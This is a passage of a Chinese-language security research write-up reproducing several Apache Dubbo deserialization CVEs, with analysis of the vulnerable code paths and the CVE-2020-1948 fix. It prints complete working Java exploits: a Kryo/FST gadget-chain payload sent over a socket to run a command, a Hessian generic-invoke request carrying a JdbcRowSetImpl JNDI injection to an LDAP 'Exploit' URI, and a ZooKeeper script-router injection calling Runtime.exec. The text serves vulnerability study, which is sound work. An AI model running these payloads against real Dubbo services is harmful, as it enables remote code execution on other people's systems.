

### 修复

```java
    // check parameterTypesDesc to fix CVE-2020-1948
    public static boolean isGenericCall(String parameterTypesDesc, String method) {
        return ($INVOKE.equals(method) || $INVOKE_ASYNC.equals(method)) && GENERIC_PARAMETER_DESC.equals(parameterTypesDesc);
    }

    // check parameterTypesDesc to fix CVE-2020-1948
    public static boolean isEcho(String parameterTypesDesc, String method) {
        return $ECHO.equals(method) && $ECHO_PARAMETER_DESC.equals(parameterTypesDesc);
    }

    String GENERIC_PARAMETER_DESC = "Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;";

    String $ECHO_PARAMETER_DESC = "Ljava/lang/Object;";
```

对发送的Dubbo协议中的body部分的`Method parameter types`进行了校验，因为肯定是Map，所以肯定过不去，寄。

## CVE-2021-25641

### 影响版本

> 基础  dubbo-common <=2.7.3
> Dubbo 2.7.0 to 2.7.8
> Dubbo 2.6.0 to 2.6.9
> Dubbo all 2.5.x versions (not supported by official team any longer)

### 分析

Dubbo的依赖中有这个：



Dubbo-common中有fastjson：



Dubbo协议中的这个：



标识了序列化的方式。当id为8时使用Kryo，id为9时使用Fst。而这两个反序列化Map的时候处理和Hessian差不多，都可以利用。

利用链就是Hessian本身那5条链中的spring的那个。调用equals方法后再调用到toString然后就是fastjson的链子了。

POC直接cv了，懒得自己调了：

```java
package org.apache.dubbo.samples.basic;

import com.alibaba.fastjson.JSONObject;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.ObjectOutput;
import org.apache.dubbo.common.serialize.fst.FstObjectOutput;
import org.apache.dubbo.common.serialize.kryo.KryoObjectOutput;
import org.apache.dubbo.rpc.RpcInvocation;

import java.io.ByteArrayOutputStream;

import java.io.OutputStream;
import java.lang.reflect.Method;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;

public class FSTTest {

    public static String SerType = "FST";

    public static Object getGadgetsObj(String cmd) throws Exception{
        //Make TemplatesImpl
        Object templates = Utils.createTemplatesImpl(cmd);
        //Make FastJson Gadgets Chain
        JSONObject jo = new JSONObject();
        jo.put("oops",templates);
        return Utils.makeXStringToStringTrigger(jo);
    }

    public static void main(String[] args) throws Exception {

        ByteArrayOutputStream baos = new ByteArrayOutputStream();

        //Make header
        byte[] header = new byte[16];
        ObjectOutput objectOutput;
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.

        switch (SerType) {
            case "FST":
                objectOutput = new FstObjectOutput(baos);
                header[2] = (byte) ((byte) 0x80 | (byte)9 | (byte) 0x40);
                break;
            case "Kyro":
            default:
                objectOutput = new KryoObjectOutput(baos);
                header[2] = (byte) ((byte) 0x80 | (byte)8 | (byte) 0x40);
                break;
        }
        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);
        //Genaral ObjectOutput
        objectOutput.writeUTF("2.0.2");
        objectOutput.writeUTF("org.apache.dubbo.samples.basic.api.DemoService");
        objectOutput.writeUTF("0.0.0");
        objectOutput.writeUTF("sayHello");
        objectOutput.writeUTF("Ljava/lang/String;"); //*/

        objectOutput.writeObject(getGadgetsObj("calc"));
        objectOutput.writeObject(null);
        objectOutput.flushBuffer();

        //Transform ObjectOutput to bytes payload
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Bytes.int2bytes(baos.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(baos.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

        //Send Payload
        Socket socket = new Socket("192.168.0.103", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}

```


```java
public static Object makeXStringToStringTrigger(Object o) throws Exception {
        XString x = new XString("HEYO");
        return Utils.makeMap(new HotSwappableTargetSource(o), new HotSwappableTargetSource(x));
    }
```


## CVE-2021-30179

前面提到过Dubbo支持泛型调用：https://dubbo.apache.org/en/docs/v2.7/user/examples/generic-reference/

但只是为了绕过那个判断，后面直接反序列化就利用了，并没有往后面利用，CVE-2021-30179就是之后的利用。

通过泛型调用`provider`暴露的接口的时候会使用`GenericFilter`来处理，`RPC attachment` 需要指定调用是一个泛型调用，同时可以提供反序列化方式，



> Apache Dubbo默认支持泛化引用由服务端API接口暴露的所有方法，这些调用由GenericFilter处理。GenericFilter将根据客户端提供的接口名、方法名、方法参数类型列表，根据反射机制获取对应的方法，再根据客户端提供的反序列化方式将参数进行反序列化成pojo对象。
>
> 也就是说需要知道注册中心注册的接口名，方法名，才可以配合攻击。

### 影响版本

- Apache Dubbo 2.7.0 to 2.7.9
- Apache Dubbo 2.6.0 to 2.6.9
- Apache Dubbo all 2.5.x versions (官方已不再提供支持)


### POC

```java
    public static void main(String[] args) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

// header.
        byte[] header = new byte[16];
// set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
// set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

// set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.0.2");
//todo 此处填写注册中心获取到的service全限定名、版本号、方法名
        out.writeUTF("org.apache.dubbo.samples.basic.api.DemoService");
        out.writeUTF("0.0.0");
        out.writeUTF("$invoke");
//todo 方法描述不需要修改，因为此处需要指定map的payload去触发
        //out.writeUTF("Ljava/util/Map;");
        out.writeUTF("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
        out.writeUTF("sayHello");
        out.writeObject(new String[] {"java.lang.String"});
        getRawReturnPayload(out, "ldap://127.0.0.1:8087/Exploit");
        //out.writeObject(s);
        //out.writeObject(new HashMap());

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

//todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("192.168.142.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();

    }
    private static void getRawReturnPayload(Hessian2ObjectOutput out, String ldapUri) throws IOException {
        HashMap jndi = new LinkedHashMap();

        jndi.put("class", "com.sun.rowset.JdbcRowSetImpl");
        jndi.put("dataSourceName", ldapUri);
        jndi.put("autoCommit",true);
        out.writeObject(new Object[]{jndi});

        HashMap map = new HashMap();
        map.put("generic", "raw.return");
        out.writeObject(map);
    }
```

### 分析

区别只在于之后参数的设置。

```java
        out.writeUTF("$invoke");
//todo 方法描述不需要修改，因为此处需要指定map的payload去触发
        //out.writeUTF("Ljava/util/Map;");
        out.writeUTF("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
        out.writeUTF("sayHello");
        out.writeObject(new String[] {"java.lang.String"});
        HashMap jndi = new LinkedHashMap();

        jndi.put("class", "com.sun.rowset.JdbcRowSetImpl");
        jndi.put("dataSourceName", ldapUri);
        jndi.put("autoCommit",true);
        out.writeObject(new Object[]{jndi});
        HashMap map = new HashMap();
        map.put("generic", "raw.return");
        out.writeObject(map);
```

从CVE-2020-11995后面继续看了，因为传入的是`Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;`，因此之后还会接着读三个：



这三个参数用于在后续进行查找对应的方法。

然后读取`attachments`：



得到的也就是我们设置的`map.put("generic", "raw.return");`。

`decode`处理过后会进入`received`处理，经过一系列的处理最后到`GenericFilter`的`invoke`。先是泛型的处理，可以看到传入的第一个参数是方法名，第二个参数是传入方法的参数类型，第三个参数是传入的参数。


然后根据这三个东西来寻找方法，找不到就会抛出异常：

```java
                Method method = ReflectUtils.findMethodByMethodSignature(invoker.getInterface(), name, types);
```


然后就是根据`generic`来选择不同的反序列化方式

```java
                if (StringUtils.isEmpty(generic)
                        || ProtocolUtils.isDefaultGenericSerialization(generic)
                        || ProtocolUtils.isGenericReturnRawResult(generic)) {
                    args = PojoUtils.realize(args, params, method.getGenericParameterTypes());
                } else if (ProtocolUtils.isJavaGenericSerialization(generic)) {
                    for (int i = 0; i < args.length; i++) {
                        if (byte[].class == args[i].getClass()) {
                            try (UnsafeByteArrayInputStream is = new UnsafeByteArrayInputStream((byte[]) args[i])) {
                                args[i] = ExtensionLoader.getExtensionLoader(Serialization.class)
                                        .getExtension(GENERIC_SERIALIZATION_NATIVE_JAVA)
                                        .deserialize(null, is).readObject();
                            } catch (Exception e) {
                                throw new RpcException("Deserialize argument [" + (i + 1) + "] failed.", e);
                            }
                        } else {
                            throw new RpcException(
                                    "Generic serialization [" +
                                            GENERIC_SERIALIZATION_NATIVE_JAVA +
                                            "] only support message type " +
                                            byte[].class +
                                            " and your message type is " +
                                            args[i].getClass());
                        }
                    }
                } else if (ProtocolUtils.isBeanGenericSerialization(generic)) {
                    for (int i = 0; i < args.length; i++) {
                        if (args[i] instanceof JavaBeanDescriptor) {
                            args[i] = JavaBeanSerializeUtil.deserialize((JavaBeanDescriptor) args[i]);
                        } else {
                            throw new RpcException(
                                    "Generic serialization [" +
                                            GENERIC_SERIALIZATION_BEAN +
                                            "] only support message type " +
                                            JavaBeanDescriptor.class.getName() +
                                            " and your message type is " +
                                            args[i].getClass().getName());
                        }
                    }
                } else if (ProtocolUtils.isProtobufGenericSerialization(generic)) {
                    // as proto3 only accept one protobuf parameter
                    if (args.length == 1 && args[0] instanceof String) {
                        try (UnsafeByteArrayInputStream is =
                                     new UnsafeByteArrayInputStream(((String) args[0]).getBytes())) {
                            args[0] = ExtensionLoader.getExtensionLoader(Serialization.class)
                                    .getExtension(GENERIC_SERIALIZATION_PROTOBUF)
                                    .deserialize(null, is).readObject(method.getParameterTypes()[0]);
                        } catch (Exception e) {
                            throw new RpcException("Deserialize argument failed.", e);
                        }
                    } else {
                        throw new RpcException(
                                "Generic serialization [" +
                                        GENERIC_SERIALIZATION_PROTOBUF +
                                        "] only support one " + String.class.getName() +
                                        " argument and your message size is " +
                                        args.length + " and type is" +
                                        args[0].getClass().getName());
                    }
                }
```

raw.return，bean和nativejava都可以利用。

如果是raw.return的话，调用`PojoUtils.realize`来处理，最后进入到`realize0`处理。

因为`pojo`是`LinkedHashMap`，所以会进入这个if：



这里type就变成了`class com.sun.rowset.JdbcRowSetImpl`。然后这里因为类型不能转换会出异常，但是ignore了。



最后进入else处理，根据`map`的key来获取setter然后invoke：

```java
            } else {
                Object dest = newInstance(type);
                history.put(pojo, dest);
                for (Map.Entry<Object, Object> entry : map.entrySet()) {
                    Object key = entry.getKey();
                    if (key instanceof String) {
                        String name = (String) key;
                        Object value = entry.getValue();
                        if (value != null) {
                            Method method = getSetterMethod(dest.getClass(), name, value.getClass());
                            Field field = getField(dest.getClass(), name);
                            if (method != null) {
                                if (!method.isAccessible()) {
                                    method.setAccessible(true);
                                }
                                Type ptype = method.getGenericParameterTypes()[0];
                                value = realize0(value, method.getParameterTypes()[0], ptype, history);
                                try {
                                    method.invoke(dest, value);
```

实际上就类似fastjson这些的setter链子了，所以`JdbcRowSetImpl`的JNDI注入就可以打通了。


关于bean和nativejava的利用其实也都差不多了。

## CVE-2021-30181

https://threedr3am.github.io/2021/05/30/Dubbo%20Consumer%E8%84%9A%E6%9C%AC%E6%B3%A8%E5%85%A5RCE%20-%20CVE-2021-30181/

根据我本地环境构造出：

```java
script://92.59.17.2/org.apache.dubbo.samples.basic.api.DemoService?application=demo-consumer&category=routers&check=false&dubbo=2.0.2&init=false&interface=org.apache.dubbo.samples.basic.api.DemoService&methods=testVoid,sayHello&pid=26908&release=2.7.7&side=consumer&sticky=false&timestamp=1648639658193&route=script&type=javascript&rule=s%3D%5B3%5D%3Bs%5B0%5D%3D'cmd'%3Bs%5B1%5D%3D'%2Fc'%3Bs%5B2%5D%3D'calc'%3Bjava.lang.Runtime.getRuntime().exec(s)%3B
```

```shell
create /dubbo/org.apache.dubbo.samples.basic.api.DemoService/routers/script%3A%2F%2F92.59.17.2%2Forg.apache.dubbo.samples.basic.api.DemoService%3Fapplication%3Ddemo-consumer%26category%3Drouters%26check%3Dfalse%26dubbo%3D2.0.2%26init%3Dfalse%26interface%3Dorg.apache.dubbo.samples.basic.api.DemoService%26methods%3DtestVoid%2CsayHello%26pid%3D26908%26release%3D2.7.7%26side%3Dconsumer%26sticky%3Dfalse%26timestamp%3D1648639658193%26route%3Dscript%26type%3Djavascript%26rule%3Ds%253D%255B3%255D%253Bs%255B0%255D%253D'cmd'%253Bs%255B1%255D%253D'%252Fc'%253Bs%255B2%255D%253D'calc'%253Bjava.lang.Runtime.getRuntime().exec(s)%253B 92.59.17.2
```

因为是在路径上，所以还得再整体url编码一次。

然后consumer再请求即可rce：



## Dubbo Rouge攻击客户端

https://xz.aliyun.com/t/7354

学习了学习了，之后复现XCTF-final那道Dubbo的时候再用到这个来实践一下。

## 总结

还有一部分CVE没有复现，暂时咕咕咕了。

## 参考链接

https://www.zhihu.com/question/25536695

http://www.lmxspace.com/2020/02/16/Apache-Dubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

https://www.anquanke.com/post/id/197658

https://mp.weixin.qq.com/s/vHJpE2fZ8Lne-xFggoQiAg

https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247488856&idx=1&sn=ee37514a5bfbf8c35f4ec661a4c7d45a&chksm=903933a8a74ebabecaf9428995491494f20e5b24a15f8d52e79d3a9dac601620c21d097cdc1f&scene=21#wechat_redirect

https://xz.aliyun.com/t/7354